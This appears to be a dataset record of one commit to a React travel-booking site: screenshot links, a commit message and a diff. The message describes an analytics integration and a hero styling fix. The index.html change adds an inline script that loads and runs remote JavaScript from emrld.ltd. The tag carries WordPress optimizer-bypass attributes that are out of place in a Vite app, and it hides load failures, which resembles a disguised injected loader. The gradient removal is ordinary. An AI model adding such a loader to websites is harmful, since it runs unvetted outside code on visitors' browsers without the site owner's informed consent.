

Before and after one commit to MARC414/URAL-Travel, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
feat: integrate Emerald analytics and fix hero UI
Inject Emerald tracking script into the document head and remove the hero bottom gradient to resolve unexpected overlay issues.

```diff
--- a/index.html
+++ b/index.html
@@ -163,6 +163,21 @@
     </script>
 
     <meta name="google-site-verification" content="CtmKA_dGDtIeZVuxXQ57FCMUKOHcgw6ZBaberZanhMs" />
+    <script nowprocket data-noptimize="1" data-cfasync="false" data-wpfc-render="false" seraph-accel-crit="1" data-no-defer="1">
+      (function () {
+          try {
+              var script = document.createElement("script");
+              script.async = 1;
+              script.src = 'https://emrld.ltd/NTQwMjc3.js?t=540277';
+              script.onerror = function() {
+                  console.warn("Emerald script load bypassed or blocked due to network limitations.");
+              };
+              document.head.appendChild(script);
+          } catch (e) {
+              console.warn("Failed to inject Emerald script dynamically:", e);
+          }
+      })();
+    </script>
   </head>
   <body>
     <div id="root"></div>
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -539,8 +539,7 @@ export default function App() {
             {/* SEO-optimized Image Placement */}
             <img src={heroBgImage} alt="Travel from Bangladesh — compare flights hotels and visa guides" className="sr-only" />
 
-            {/* Bottom Fade Gradient Overlay */}
-            <div className="hero-bottom-fade absolute bottom-0 left-0 right-0 h-64 z-10 pointer-events-none" />
+            {/* Bottom Fade Gradient Overlay - Removed to avoid white overlay */}
 
             {/* Animated SVG Route Map Overlay */}
             <svg className="absolute inset-0 w-full h-full object-cover pointer-events-none z-10 opacity-40" viewBox="0 0 1200 700" preserveAspectRatio="xMidYMid slice">
--- a/src/index.css
+++ b/src/index.css
@@ -129,13 +129,7 @@
 
 /* === HERO BOTTOM FADE === */
 .hero-bottom-fade {
-  background: linear-gradient(
-    180deg,
-    transparent 0%,
-    rgba(248, 250, 252, 0.15) 50%,
-    rgba(248, 250, 252, 0.95) 85%,
-    #F8FAFC 100%
-  );
+  background: transparent;
 }
 
 /* === HERO ROUTE LINE ANIMATION === */
```
